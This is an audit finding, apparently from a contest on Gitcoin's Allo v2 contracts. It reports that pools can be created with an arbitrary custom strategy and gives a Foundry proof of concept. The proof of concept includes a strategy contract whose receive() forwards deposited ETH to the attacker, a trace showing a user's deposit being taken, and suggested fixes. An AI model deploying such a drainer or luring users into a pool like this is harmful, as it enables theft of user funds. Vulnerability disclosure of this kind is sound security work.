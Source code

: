 Polished Cyan Porpoise

high

# Adversary can steal  99% of  the depositor funds by deploying  a malicious custom Strategy
## Summary

Adversary can create a malicious pool with a `customStrategy ` where users can fund into it , this  will allow the adversary to 
directly steal user funds. 


## Vulnerability Detail

Once a user creates a profile , a member of the profile or the profile owner can create a pool with a strategy,
So an  adversary  can create a custom Strategy by passing a malicious strategy address to `allo::createPoolWithCustomStrategy()`
 Check is `if (_isCloneableStrategy(_strategy)) revert IS_APPROVED_STRATEGY();` so it is not true  therefore we can create a custom strategy passing  any address we like ,   

Consider  a scenario ,
1. Alice  wants to fund a pool . 
2. Adversary  creates a  custom Strategy pool  with a malicious  intention.  
3. Adversary  promotes the pool by impersonating the protocol brand saying fund the pool with this `pool_id` 
4.  Alice  interact with the frond-end to fund the pool with `pool _id`, this will result in immediate loss of  funds  ,creating  a bad reputation to the protocol.
 Also all of the functions which calls  the specific `strategyPool` through `Allo.sol` is now in control of adversary .He can implement what ever to do with it.   


`forge test --match-path  ./test/foundry/core/Allo.sol --match-test test_With_MaliciousStrategy  -vvvv`


```diff

+ StratergyCustom st ;
+ address adversary = makeAddr("Adversary");
        function setUp() public {

            __RegistrySetupFull();
            __AlloSetup(address(registry()));
            token = new MockERC20();
            token.mint(local(), mintAmount);
            token.mint(allo_owner(), mintAmount);
            token.mint(pool_admin(), mintAmount);
            token.approve(address(allo()), mintAmount);

            vm.prank(pool_admin());
            token.approve(address(allo()), mintAmount);

            strategy = address(new MockStrategy(address(allo())));

            vm.startPrank(allo_owner());
            allo().transferOwnership(local());
            vm.stopPrank();
+ vm.startPrank(adversary);   
+st = new StratergyCustom();
+ vm.stopPrank();
        }



 function test_With_MaliciousStrategy() public {
address user = makeAddr("user");
 vm.deal(user , 1 ether);
        address[] memory poolManagers = new address[](1);
        poolManagers[0] = address(1);
        vm.prank(pool_admin());
+       allo().createPoolWithCustomStrategy(poolProfile_id(), address(st), "0x", NATIVE, 0, metadata, poolManagers);
     
     vm.prank(user);
    allo().fundPool{value :  1 ether}(st.getPoolId(), 1 ether);
    }



contract StrategyCustom {
    event xp(string);
address immutable adversary;
// address native = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
constructor () {
    adversary = msg.sender;
}

uint id;
function initialize(uint256 _id , bytes memory  _initStrategyData) public {
id = _id;
}
function getPoolId() external view returns(uint) {
return id;
}

function getAllo() external view returns (address) {
return address(msg.sender);
}

function increasePoolAmount(uint256 wut) external {
emit xp("Respect++");
}
receive() external payable {
 (bool s, ) =adversary.call{value : address(this).balance}("");
require(s);
}

}

```

```bash
 ├─ [9479] StratergyCustom::receive{value: 990000000000000000}() 
    │   │   ├─ [0] Adversary::fallback{value: 990000000000000000}() 
    │   │   │   └─ ← ()
```
We were able to steal 99 % of ETH a user deposited to the   pool and rest is paid as the protocol  fee  to the `Treasury`

## Impact

Result in loss of user funds /tokens

## Code Snippet

```js

 function createPoolWithCustomStrategy(
        bytes32 _profileId,
        address _strategy,
        bytes memory _initStrategyData,
        address _token,
        uint256 _amount,
        Metadata memory _metadata,
        address[] memory _managers
    ) external payable returns (uint256 poolId) {
        // Revert if the strategy address passed is the zero address with 'ZERO_ADDRESS()'
        if (_strategy == address(0)) revert ZERO_ADDRESS();

        // Revert if we already have this strategy in our cloneable mapping with 'IS_APPROVED_STRATEGY()' (only non-cloneable strategies can be used)
        if (_isCloneableStrategy(_strategy)) revert IS_APPROVED_STRATEGY();


```

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L146

## Tool used

Manual Review

## Recommendation

Consider introducing a validation method to validate custom strategies  before a user creates a pool using a custom strategy.
Something like validating a governance proposal. Also remember an attacker can still create metamorphic contracts just like 
the tornando cash governance attack vector.       

```diff
+   if(!_isApprovedCustomStratergy(address(stratergy))) revert IS_APPROVED_CUSTOM_STRATEGY();

or else you can set in allo::createPoolWithCustomStrategy() as it is,

-   if (_isCloneableStrategy(_strategy)) revert IS_APPROVED_STRATEGY();
+   if (!_isCloneableStrategy(_strategy)) revert IS_APPROVED_STRATEGY();

```
Also Consider adding a `WARNING` on the front end if users try to interact with  `customStrategies`  created by arbitrary users  other than using default Clonable Strategies provided by the protocol 
